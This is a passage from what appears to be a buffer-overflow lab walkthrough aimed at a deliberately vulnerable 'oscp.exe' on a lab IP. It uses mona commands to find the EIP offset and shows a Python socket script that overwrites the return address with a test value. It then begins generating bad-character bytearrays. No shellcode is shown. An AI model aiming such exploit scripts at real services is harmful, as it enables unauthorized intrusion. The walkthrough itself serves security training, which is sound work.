 If we did everything correctly, the oscp.exe file crashes, we now need to use mona again to find the EIP Offset:

```
!mona findmsp -distance 2200
```

Now if we take a closer look to the log panel we get in mona, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250529122501.png)

As seen, I got my offset:

```
1978
```

Knowing this, we now need to modify `exploit.py` again:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix  = "OVERFLOW1"
offset  = 1978
overflow= "A" * offset
retn    = "BBBB"
padding = ""
payload = ""
postfix = ""

# Read the pattern file:
with open("pattern.txt","r") as f:
    payload = f.read().strip()

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()

```

We need to restart `oscp.exe` again and run it:

![](cybersecurity/images/Pasted%2520image%252020250529123058.png)

As seen, we got `Access Violation when executing [42424242]`, this means everything's going right by now, now, we need to use mona again to generate the base bytearray:

```
!mona bytearray -b "\x00"
```
